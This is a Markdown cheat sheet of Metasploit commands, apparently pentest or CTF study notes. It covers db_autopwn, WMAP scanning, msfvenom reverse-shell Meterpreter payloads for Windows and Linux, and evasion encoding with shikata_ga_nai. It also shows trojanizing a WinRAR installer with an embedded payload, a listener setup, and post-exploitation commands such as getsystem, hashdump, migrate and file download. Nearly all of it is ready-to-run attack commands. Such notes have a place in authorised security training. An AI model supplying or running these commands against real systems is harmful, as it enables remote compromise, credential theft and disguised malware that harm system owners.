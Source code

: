 # **Metasploit**

--------------------------------------------------------------------

## Workspaces

```
service postgresql start
db_status

workspace -a name
workspace -d name
workspace -h (help)

sessions
sessions -k
run autoroute -s 0.0.0.0

analyze
vulns

sudo mv db_autopwn /usr/share/metasploit-framework/plugins
load db_autopwn
db_autopwn -p -t
db_autopwn -p -t -PI 445
```

--------------------------------------------------------------------

## WMAP

```
load wmap
wmap_sites -a 0.0.0.0
wmap_targets -t http://0.0.0.0
wmap_run -t (show modules)
wmap_run -e (run)
wmap_vulns

if GET…. allowed 
> scanner/http/http_put
> change path to /data/
```

--------------------------------------------------------------------

## Msfvenom

> Payloads

```
msfvenom —list payloads

> WINDOWS:

both versions:
msfvenom -a x86 -p windows/meterpreter/reverse_tcp LHOST=0.0.0.0 LPORT=1234 -f exe > /home/kali/Desktop/Windows_payloads/payloadx86.exe

just 64 bits:
msfvenom -a x64 -p windows/x64/meterpreter/reverse_tcp LHOST=0.0.0.0 LPORT=1234 -f exe > /home/kali/Desktop/Windows_payloads/payloadx64.exe

msfvenom —list formats


> LINUX:

msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=0.0.0.0 LPORT=1234 -f elf > /Desktop/Linux_Payloads/payloadx86
same as x64


> multi-handler

use multi/handler
set payload windows/meterpreter/reverse_tcp
set lhost,lport
```

```
sudo python -m SimpleHTTPServer 80 (Create simple server)
```

> Encoders

```
msfvenom —list encoders

msfvenom -a x86 -p windows/meterpreter/reverse_tcp LHOST=0.0.0.0 LPORT=1234 **-e x86/shikata_ga_nai** -f exe > /home/kali/Desktop/Windows_payloads/payloadx86.exe
msfvenom -a x86 -p windows/meterpreter/reverse_tcp LHOST=0.0.0.0 LPORT=1234 **-i 10** -e x86/shikata_ga_nai -f exe > /home/kali/Desktop/Windows_payloads/payloadx86.exe

**same for linux**

msfvenom -a x86 -p windows/meterpreter/reverse_tcp LHOST=0.0.0.0 LPORT=1234 **-i 10** -e x86/shikata_ga_nai -f exe **-k** **-x /Downloads/wrar602.exe** > /home/kali/Desktop/Windows_payloads/payloadx86.exe 
msfvenom -a x86 -p windows/meterpreter/reverse_tcp LHOST=0.0.0.0 LPORT=1234 **-i 10** -e x86/shikata_ga_nai -f exe **-x /Downloads/wrar602.exe** > /home/kali/Desktop/Windows_payloads/payloadx86.exe 

run post/windows/manage/migrate
```

> Resource scripts

```
/usr/share/metasploit-framework/resource/

msfconsole -r handler.rc

resource /Desktop/handler.rc
```

--------------------------------------------------------------------

## Meterpreter

```
sysinfo
getsystem
getprivs
getuid
hashdump
show_mount
help
background (go back)
ls
cd
cat
edit flag1
download flag.zip
checksum md5 /bin/bash
getenv PATH
getenv TERM
search -d /usr/bin -f *backdoor*
search -f *.jpg
migrate 2212 (change to x64 or …)
execute -f ifconfig

ctrl-z
post/multi/shell_to_meterpreter

session -u 1
```

--------------------------------------------------------------------